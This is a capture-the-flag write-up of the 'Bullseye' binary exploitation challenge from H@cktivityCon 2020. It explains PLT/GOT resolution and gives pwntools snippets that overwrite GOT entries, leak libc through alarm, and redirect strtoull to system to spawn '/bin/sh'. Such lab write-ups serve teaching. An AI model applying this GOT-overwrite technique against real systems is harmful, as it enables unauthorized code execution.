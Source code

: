 # H@cktivityCon CTF 2020 `Bullseye` Writeup
Category Binary Exploitation  
Points: 150

## Description
```
You have one shot, don't miss.
```
_Couldn't find the actual description, so this is just the first line the binary prints_

---
 
 Where I learn about overwriting the GOT to make use of arbitrary writes

 # Recon
 We are given a single binary, `bullseye`

 ```
 > file bullseye
 bullseye: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=e1968fcbe7c510329f863f4d6af48643ef947b29, for GNU/Linux 3.2.0, not stripped

 > checksec --file=bullseye
 RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   81) Symbols       No    0               3               bullseye
 ```

 No PIE and Partial Relro, which ends up being important, and no stack canaries, which doesn't really.

When run the binary claims to write an arbitrary value to an arbitrary address. And it will in fact segfault if we try to write to an invalid address.

```
> ./bullseye
You have one write, don't miss.

Where do you want to write to?
0
What do you want to write?
1234
Segmentation fault
```

Lets open it up in ghidra and take a look

```c
void main(void)
{
  ulonglong *pointer;
  ulonglong value;
  char buffer [24];
  
  setup();
  puts("You have one write, don\'t miss.\n");
  puts("Where do you want to write to?");
  read(0,buffer,0x10);
  pointer = (ulonglong *)strtoull(buffer,(char **)0x0,0x10);
  memset(buffer,0,0x10);
  puts("What do you want to write?");
  read(0,buffer,0x10);
  value = strtoull(buffer,(char **)0x0,0x10);
  *pointer = value;
  sleep(0xf);
  printf("%p\n",alarm);
                    /* WARNING: Subroutine does not return */
  exit(0);
}
```

Does what it says on the tin, except for that little bit at the end. It looks like if
you manage to not segfault on the write and wait 15 seconds, the binary prints the address of the alarm function, which in turn tells us the address of libc. How very kind of it!

Still though, popping a shell with only a single write seems fairly difficult. Especially since the function calls exit and never returns, so a standard ROP is out of the question. It would be nice if we could do more than one write.

TODO: Insert note about one_gadget

## GOT milk?
When binaries are dynamically linked (like this one is) it doesn't know the address of external symbols (such as `exit` or `printf`) at compile time. Instead, the address are resolved at run time.

The way that happens is a complex process with lots of moving parts. The parts that interest us currently are the Procedure Linkage Table (PLT) and Global Offset Table (GOT). They are both areas of memory with a known, static offset to the binary that work together to allow external functions to be called.

When a function in a dynamic library is called (say `printf`), the following process occurs:

1. The call the `printf` is actually a call to `print@plt`, the index of `printf` in the PLT.
2. The first instruction at `printf@plt` is an indirect jump to the address stored at `printf@got`
3. If `printf` has been called before the offset has been loaded, so the jump points directly to the real `printf` and we are done.
4. Otherwise, the jump ends up calling the dynamic linker, which resolves the address of the real `printf` and patches up `printf@got` to point directly to it.

The GOT is writable by necessity, as the linker needs to update entries at runtime. And since we know the address of the GOT (the binary isn't position independent), we can overwrite one of the entries to an address of our choosing. Then, the next time that function gets called, execution will be directed to that address! (Note this is there the binary being marked as Partial RELRO matters. If the binary is marked as Full RELRO, all of the PLT entries are resolved at load time, and the pages of memory are marked as read only, mitigating this attack.)

So what function to choose, and where should we go? well like I said in the beginning, it sure would be nice if we could write more than once. Well, what if, when exit was called at the end of the function, execution was instead redirected back to the beginning of main?

```python
write_quad_where(stream, e.symbols["main"], e.got["exit"]) # loop on exit
```

Make sure to grab the address of `alarm` as it goes by:

```python
alarm_addr = int(stream.recvline(), base=16)
libc.address = alarm_addr - libc.symbols["alarm"]
```

Great, now we have an infinite loop. As many writes as we want. That 15 second pause was pretty annoying though. Now that we have the address of libc, we can set `sleep` to redirect execution back to `main` as well:

```python
write_quad_where(stream, e.symbols["main"], e.got["sleep"]) # loop on sleep
```

Now that we don't have to wait again, we can get on to calling `system`. The trick here is we need control over the arguments, so we can pass the requisite "/bin/sh". The easiest function is `strtoull`

```python
write_quad_where(stream, libc.sym["system"], e.got["strtoull"]) # replace strtoull with system
```

Once that's finished, the next call to `strtoull` (which will have a pointer to the string we just entered as it's first argument) will be redirected to `system` instead.

```python
stream.sendline("/bin/sh")

stream.interactive()
```

## Flag

The full exploit is available in `bullseye.py`

```
> cat flag.txt
flag{one_write_two_write_good_write_bad_write}
```

_Fin._